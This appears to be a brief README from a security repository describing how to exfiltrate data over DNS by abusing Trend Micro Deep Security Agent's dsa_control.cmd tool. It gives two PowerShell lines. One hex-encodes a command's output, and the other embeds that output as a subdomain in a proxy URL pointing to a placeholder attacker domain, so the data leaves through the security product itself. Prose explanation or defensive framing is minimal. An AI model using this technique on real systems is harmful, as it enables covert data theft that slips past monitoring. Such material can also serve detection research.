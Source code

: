 ## Trend Micro Deep Security Agent: DNS Exfiltration using legitimate CLI tool


```powershell
$cmd = -join ([System.Text.Encoding]::UTF8.GetBytes((<COMMAND>)) | ForEach-Object { "{0:x2}" -f $_ }) # Convert the command output to HEX
```

```powershell
dsa_control.cmd -x "dsm_proxy://$whoami.<domain>:443/"
```

![alt text](assets/2.PNG)

![alt text](assets/1.png)


